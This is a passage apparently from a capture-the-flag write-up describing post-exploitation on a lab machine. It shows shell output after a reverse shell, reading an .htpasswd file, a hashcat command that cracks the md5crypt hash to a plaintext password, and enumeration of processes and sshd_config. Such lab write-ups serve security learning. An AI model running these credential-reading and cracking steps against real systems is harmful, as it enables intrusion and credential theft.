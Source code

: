 And voila, we got a reverse shell
```
$ whoami && id

_httpd
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```

The system is extremely restricted and is missing alot of usefull programs (python, bash, touch, etc...) <br>

Lets manually enumerate
```
cmd: find / -type f -perm -4000 -print 2>/dev/null
Results: nothing interesting

cmd: shh-keygen 
Result: impossible to write, home is /var/www/

```

Checking the system around
```
cmd: cd ~
----------------------------------------------------------
cmd: ls -la
Results:
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
-rw-r--r--   1 root  wheel   47 Sep 16 15:07 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17 20:56 index.html
-rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
----------------------------------------------------------
cmd: cat .htpasswd
Results: webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

Checking online for the type (src: )
```
md5crypt, MD5 (Unix)

cmd: hashcat -h | grep md5
Results:  500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)        | Operating System
cmd (to crack): hashcat -a 0 -m 500 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou-75.txt
```

Results
```
webapi_user:iamthebest
```

This creds work on the port 80, but i found nothing with the some fuzzing... <br>

Need to manual enumerate the machine
```
cmd: ps aux | grep r.michaels

r.michaels   185  0.0  0.0  34996  2024 ?     Is    7:17AM 0:00.01 /usr/libexec

--------------------------------------------------------------------------------
cmd: cat /etc/ssh/sshd_config

PermitRootLogin yes 
PasswordAuthentication no (need root ssh key for that attack vector)
--------------------------------------------------------------------------------
cmd: netstat -an | grep LISTEN

```